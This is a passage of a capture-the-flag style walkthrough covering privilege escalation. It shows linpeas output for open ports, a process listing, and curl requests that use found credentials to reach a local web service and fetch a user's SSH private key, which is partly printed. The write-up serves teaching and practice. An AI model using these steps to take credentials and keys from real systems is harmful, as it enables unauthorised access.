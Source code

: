 ## PRIVESEC

On running linpeas we find something interesting in the open ports part.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                           
tcp        0      0  127.0.0.1.3000         *.*                    LISTEN                                                          
tcp        0      0  127.0.0.1.3001         *.*                    LISTEN
tcp        0      0  *.80                   *.*                    LISTEN
tcp        0      0  *.22                   *.*                    LISTEN
tcp        0      0  *.9001                 *.*                    LISTEN
tcp6       0      0  *.22                   *.*                    LISTEN
```
The one port that we have not seen before is `3001`.

Now we try to find which user is running this port.
Using the `ps auxw` command to check all running processes, we find that r.michaels is running this.

```bash
r.michaels  185  0.0  0.0  34992  1976 ?     Is    1:13PM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www
```

We connect to this port via curl and it asks for authorization, so I try ti use the creds we have `webapi_user:iamthebest` and it works.

```bash
$ curl http://127.0.0.1:3001 -u webapi_user:iamthebest
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   386  100   386    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
<!doctype html>
<html>
  <head>
    <title>Index</title>
  </head>
  <body>
    <p><h3>Weather Forecast API</h3></p>
    <p><h4>List available cities:</h4></p>
    <a href="/weather/forecast?city=list">/weather/forecast?city=list</a>
    <p><h4>Five day forecast (London)</h4></p>
    <a href="/weather/forecast?city=London">/weather/forecast?city=London</a>
    <hr>
  </body>
</html>
```

After spending a lot of time to figure how to proceed from here, this is what I find

```bash
$ curl -u webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0   849k      0 --:--:-- --:--:-- --:--:--  849k
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
ryXEuMkQOxsqeavnzonomJSuJMIh4ym7NkfQ3eKaPdwbwpiLMZoNReUkBqvsvSBpANVuyK
...snip...
```